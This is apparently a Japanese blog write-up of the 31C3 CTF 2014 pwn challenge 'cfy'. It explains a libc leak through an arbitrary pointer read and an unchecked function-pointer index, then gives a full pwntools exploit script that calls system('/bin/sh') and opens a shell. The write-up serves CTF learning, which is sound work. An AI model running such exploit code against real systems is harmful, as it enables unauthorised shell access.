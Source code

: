 ```yaml
---
layout: post
alias: "/blog/2016/02/18/31c3-ctf-2014-cfy/"
title: "31C3 CTF 2014: cfy"
date: 2016-02-18T10:32:58+09:00
tags: [ "ctf", "writeup", "pwn", "31c3-ctf" ]
---
```


libcの特定をする必要があると知った回。(してなかった)

## [cfy](https://github.com/ctfs/write-ups-2014/tree/master/31c3-ctf-2014/pwn/cfy)

``` sh
$ file cfy
cfy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f023c69bba5f53464912a2501e87fb098e19af5d, not stripped

$ checksec --file cfy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   cfy

$ ./cfy
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
0

Please enter your number: 10
dec: 16
hex: 0x10

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
3
have a nice day
```

### 攻撃

`2) parse from pointer`を選ぶと好きなアドレスを読むことができる。これにより、libcのbase addressが判明する。

`parsers`という関数ポインタの配列を持っており、与えられた入力をindexとして参照するが、indexの範囲のチェックをしていない。
大きな値を与えると別の入力である`buf`上に乗ったアドレスを`call`させられる。(しかも`buf`を引数として与えて呼び出す。)

これにより`system("/bin/sh");`を叩ける。

``` sh
$ readelf -s cfy
    59: 0000000000601080    48 OBJECT  GLOBAL DEFAULT   24 parsers
    72: 00000000006010e0  1024 OBJECT  GLOBAL DEFAULT   25 buf
    74: 000000000040080c   278 FUNC    GLOBAL DEFAULT   13 main
    75: 0000000000400785    20 FUNC    GLOBAL DEFAULT   13 from_ptr
    79: 0000000000400761    36 FUNC    GLOBAL DEFAULT   13 from_dec
    80: 000000000040073d    36 FUNC    GLOBAL DEFAULT   13 from_hex
```

### 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

elf = ELF('./cfy')
choice_call_buf = 6 # if you choose 6, it calls buf
choice_distance = 1<<4

context.log_level = 'debug'

# local
p = process('./cfy')
libc = ELF('/usr/lib/libc.so.6')

p.recvuntil('What do you want to do?\n')
p.sendline('2')
p.recvuntil('Please enter your number: ')
p.sendline(p64(elf.got['puts']))
p.recvline()
libc_base = int(p.recvline().split()[1], 16) - libc.symbols['puts']

p.recvuntil('What do you want to do?\n')
p.sendline('0')
p.recvuntil('Please enter your number: ')
p.sendline('A' * choice_distance + p64(libc_base + libc.symbols['system']))

p.recvuntil('What do you want to do?\n')
p.sendline(str(choice_call_buf + 1))
p.recvuntil('Please enter your number: ')
p.sendline('/bin/sh')

p.sendline('ls')
p.interactive()
```

---

-   Thu Feb 18 18:50:53 JST 2016
    -   libcに関して追記
